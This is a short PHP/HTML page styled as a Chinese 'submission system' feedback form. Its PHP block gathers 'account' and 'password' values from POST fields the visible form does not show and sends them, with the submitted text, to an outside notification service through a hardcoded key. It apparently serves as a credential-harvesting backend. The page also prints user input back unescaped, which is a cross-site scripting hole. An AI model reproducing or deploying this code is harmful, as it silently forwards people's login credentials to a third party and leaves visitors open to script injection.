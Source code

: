 
  <meta name="viewport" content="width=device-width, initial-scale=0.88, maximum-scale=1, user-scalable=no">
        <meta http-equiv="X-UA-Compatible" content="IE=Edge">
        <meta charset="UTF-8">
        <meta name="keywords" content="By吹牛逼">
        <meta name="description" content="吹牛逼">
        <!-- Bootstrap -->
        <link rel="shortcut icon" href="//static.hdslb.com/images/favicon.ico">
        <link rel="stylesheet" href="//cdn.bootcss.com/bootstrap/3.3.0/css/bootstrap.min.css">
        <style>
            body{font-family: "Microsoft YaHei" ! important;}
            html{background:url(自定义背景图片) no-repeat center top;background-size:cover}body{padding-top:20px;font-size:1pc;background:transparent}h1{font-weight:400;font-size:40px}.panel{background-color:hsla(0,0%,100%,.9)}.margin-base-vertical{margin:40px 0}.margin-base-mini{margin:20px 0}.bs-callout{padding:20px;margin:20px 0;border:1px solid #eee;border-left-width:5px;border-radius:3px}.bs-callout h4{margin-top:0;margin-bottom:5px}.bs-callout p:last-child{margin-bottom:0}.bs-callout code{border-radius:3px}.bs-callout+.bs-callout{margin-top:-5px}.bs-callout-danger{border-left-color:#d9534f}.bs-callout-danger h4{color:#d9534f}.bs-callout-warning{border-left-color:#f0ad4e}.bs-callout-warning h4{color:#f0ad4e}.bs-callout-info{border-left-color:#5bc0de}.bs-callout-info h4{color:#5bc0de}.tile-footer{padding:5px 10px;background:rgba(0,0,0,.1);text-align:left}.tile-content-wrapper{position:relative;overflow:hidden;padding:10px 10px 17px}.tile-content{font-size:35px}.tile-content span{font-size:18px;font-weight:700}.tile-content span,.tile-content-wrapper small{opacity:.7;-moz-opacity:.7;filter:alpha(opacity:70)}.tile-content-wrapper small{display:block;text-align:right;font-size:14px}.tile-header{padding:10px;background:#84b8ff;text-transform:uppercase;font-size:18px}.niebu{padding:10px}
input{margin-top: 3px;}
                </style>
</head>
<body>
        <div class="container">
                <div class="row">
          
            <div class="col-md-6 col-md-offset-3 panel panel-default">
                        <h2 class="text-center">提交系统</h2>
                        <div class="bs-callout bs-callout-info">
                                                <h4 class="help-block text-left">Title</h4>
                                </div>
                                <form action="" method="post">
<span class="label label-info">信息: </span><input type="text" name="text" placeholder="输入信息" class="form-control">

<br>

<input type="submit" value="发送" class="btn btn-sm btn-success">
                  <br>
                  用户反馈
</form>
        <?php

$text="订单信息：".$_POST["text"];
$desp="用户信息…账号：".$_POST["user"]."密码：".$_POST["pass"];
file_get_contents("https://sc.ftqq.com/SCU57030T1379dae0a25edc121f49d48b4db3ef555d4a53f0cb633.send?text={$text}&desp={$desp}");
?>
<span style="color: purple;">
<?php
if($_POST)
{
echo "提示：".$text."更新成功！请勿重复提交";
}
?></span>
                        </div>
                        <div class="col-md-3"> <!-- 评论代码放置区 -->        
                        </div>
                </div><!-- //row -->
        </div> <!-- //container -->

</body>
</html>
